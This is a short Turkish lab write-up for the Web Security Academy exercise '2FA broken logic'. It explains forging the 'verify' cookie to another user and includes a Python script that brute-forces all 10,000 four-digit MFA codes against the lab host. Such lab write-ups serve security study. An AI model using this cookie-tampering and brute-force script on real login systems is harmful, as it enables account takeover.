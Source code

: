 #### 8.Lab: 2FA broken logic

Bu labda email'e bir mfa code gönderiliyor, authentication için
- GET /login2 isteği atıyoruz ki mfa code oluşturulsun
- Ardından Post /login2 isteğinde `Cookie : verify: carlos` gibi bir değişiklik yapıyoruz
- mfa code kısmına da brute force uyguluyoruz.
- Ben bunu bir python scriptiyle gerçekleştirdim:
```
import requests

url = "https://0a2c000b04589c56801e17d300560023.web-security-academy.net/login2"
headers = {
    "Host": "0a2c000b04589c56801e17d300560023.web-security-academy.net",
    "Cache-Control": "max-age=0",
    "Sec-Ch-Ua": '"Not:A-Brand";v="24", "Chromium";v="134"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Accept-Language": "tr-TR,tr;q=0.9",
    "Origin": "https://0a2c000b04589c56801e17d300560023.web-security-academy.net",
    "Content-Type": "application/x-www-form-urlencoded",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://0a2c000b04589c56801e17d300560023.web-security-academy.net/login2",
    "Accept-Encoding": "gzip, deflate, br",
    "Priority": "u=0, i"
}

cookies = {
    "verify": "carlos",
    "session": "ZUVBmKl3Dzt1Ro8poEjz9Srd3pa717D5"
}

for code in range(10000):  
    mfa_code = f"{code:04d}"
    data = {"mfa-code": mfa_code}
    response = requests.post(url, headers=headers, cookies=cookies, data=data)
    print(f"Trying MFA Code: {mfa_code} - Status Code: {response.status_code}")
    if "Incorrect security code" not in response.text:
        print(f"\n[*] SUCCESS! MFA Code: {mfa_code}\n")
        successful_mfa_code = mfa_code
        break  
print(successful_mfa_code)
```

